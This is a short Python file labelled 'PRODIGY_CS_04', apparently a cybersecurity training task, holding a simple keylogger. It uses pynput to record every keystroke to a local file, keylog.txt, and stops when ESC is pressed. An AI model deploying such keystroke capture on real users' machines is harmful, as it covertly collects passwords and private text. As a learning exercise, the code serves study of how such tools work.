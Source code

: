 # PRODIGY_CS_04
from pynput.keyboard import Key, Listener

# File to store the keystrokes
LOG_FILE = "keylog.txt"

def on_press(key):
    try:
        with open(LOG_FILE, "a") as file:
            # Write the key pressed to the log file
            file.write(f"{key.char}")
    except AttributeError:
        # Handle special keys like Space, Enter, etc.
        with open(LOG_FILE, "a") as file:
            file.write(f" [{key}] ")

def on_release(key):
    # Stop the listener on pressing ESC
    if key == Key.esc:
        return False

# Setting up the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()